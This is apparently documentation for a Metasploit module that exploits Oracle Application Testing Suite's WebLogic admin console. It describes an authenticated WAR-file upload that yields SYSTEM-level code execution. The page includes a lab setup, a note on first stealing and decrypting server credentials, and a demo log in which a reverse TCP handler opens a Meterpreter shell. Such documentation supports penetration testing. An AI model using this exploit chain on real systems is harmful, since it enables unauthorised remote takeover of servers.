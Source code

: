 
## Background

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployement feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the context of SYSTEM. Authentication is required.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

For Oracle Application Testing Suite (OATS), you may use the auxiliary/gather/oats_downloadservlet_traversal module to download the server's encrypted credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Demo

```
msf5 exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf5 exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "tammy" at 6255 bytes
[*] FRSC value: 0xd0b28cc3e93f75d2b2941eb17a40415c158918f498f5cdcc
[*] Server replies: "The file tammy.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[*] Operation tammy is a go!
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:50144) at 2019-05-16 16:24:02 -0500
[+] Successfully undeployed tammy.war

meterpreter >
```
